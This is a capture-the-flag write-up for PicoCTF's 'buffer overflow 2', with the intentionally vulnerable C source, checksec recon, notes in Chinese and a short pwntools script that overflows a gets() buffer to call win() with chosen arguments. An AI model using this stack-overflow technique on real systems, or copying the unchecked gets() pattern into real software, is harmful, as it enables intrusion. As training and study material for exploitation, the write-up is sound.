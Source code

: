 ```yaml
---
title: PicoCTF - buffer overflow 2
tags: [PicoCTF, CTF, PWN]

---
```


# PicoCTF - buffer overflow 2
## Background
Bof
## Source code
:::spoiler Source Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}


```
:::
## Recon
寫這一題的心境變化真的很有趣，一開始看直覺很簡單，就基礎的return 2 function就結束了，不過看到還要處理calling convention的問題就有點燒腦，首先我一開始的想法是控制edi和esi的數值過掉她的checking，直覺就是用rop之類的東西，不過這隻程式本身能用的gadget少的可憐，如果要用到libc本身的gadget就必須要克服aslr的base address，想到這邊頭就開始痛了，無論如何先用gdb跟一下，發現檢查的argument就在ebp+0x8和ebp+0x10的地方，這就代表離原本的bof不遠，所以試看看能不能延伸bof的內容，果然事情比我想像中的簡單，需要注意的地方是payload中return win function的部分不能馬上接checking payload，因為執行的過程中0xcafefood會被蓋掉，所以中間需要加一個dummy value
```bash!
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/buffer overflow 2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Exploit
```python=
from pwn import *

r = remote('saturn.picoctf.net', 50995)
# r = process('./vuln')
context.arch = 'amd64'

r.recvline()

r.sendline(b'a' * 0x70 + p32(0x8049296) + p32(0) + p32(0xCAFEF00D) + p32(0xF00DF00D))

r.interactive()
```
